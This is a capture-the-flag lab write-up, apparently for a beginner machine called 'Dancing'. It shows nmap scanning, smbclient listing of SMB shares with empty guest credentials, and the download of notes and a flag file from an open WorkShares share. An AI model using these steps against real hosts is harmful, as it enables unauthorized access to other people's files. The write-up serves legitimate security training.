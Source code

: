 # Dancing

# TL;DR

- Misconfigured SMB serivce running on the target machine that allows us to login using the guest/anonymous authentication.<br>
\* The `smbclient` takes the username from the local host if one is not provided.

# Enumeration

- `ping 10.129.1.12` : to test if the server us up and running.
- We scan the host to determine running services:
```
sudo nmap -sV 10.129.1.12
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-27 22:41 PST
Nmap scan report for 10.129.1.12
Host is up (0.082s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.77 seconds
```
- From the scan we find `smb` service running on port `445/tcp`.

# Foothold

 - We can connect to the target host using the `smbclient`. In case you do not already have the `smbclient` on your local host, you can download it with `sudo apt-get install smbclient`.
 - Since we do not have a user account to connect to the target host. We can run `smbclient -L 10.129.1.12`. This will use the user from the local host and we can just press `enter` when we are prompted for a password.
 ```
smbclient -L 10.129.1.12 
Password for [WORKGROUP\<username>]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.1.12 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

 ```
 - We can enumerate each of the shares with the following command `smbclient \\\\10.129.1.12\\<sharename>`
 - We get access denied for all of the shares except the `WorkShares`:
```
smbclient \\\\10.129.1.12\\WorkShares
Password for [WORKGROUP\<username>]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Mar 29 01:22:01 2021
  ..                                  D        0  Mon Mar 29 01:22:01 2021
  Amy.J                               D        0  Mon Mar 29 02:08:24 2021
  James.P                             D        0  Thu Jun  3 01:38:03 2021

```
- When we access the `WorkShares`, we see two directories. We can enumerate each of them and download the contents as follows:
```
smb: \> cd Amy.J
smb: \Amy.J\> ls
  .                                   D        0  Mon Mar 29 02:08:24 2021
  ..                                  D        0  Mon Mar 29 02:08:24 2021
  worknotes.txt                       A       94  Fri Mar 26 04:00:37 2021

                5114111 blocks of size 4096. 1750477 blocks available
```
```
smb: \Amy.J\> get worknotes.txt 
getting file \Amy.J\worknotes.txt of size 94 as worknotes.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
```
```
smb: \Amy.J\> cd ..
smb: \> cd James.P\
mb: \James.P\> ls
  .                                   D        0  Thu Jun  3 01:38:03 2021
  ..                                  D        0  Thu Jun  3 01:38:03 2021
  flag.txt                            A       32  Mon Mar 29 02:26:57 2021

                5114111 blocks of size 4096. 1750477 blocks available
```
```
smb: \James.P\> get flag.txt 
getting file \James.P\flag.txt of size 32 as flag.txt (0.0 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \James.P\> exit
```
- We can now view the `flag.txt` file downloaded to our local host from the SMB share.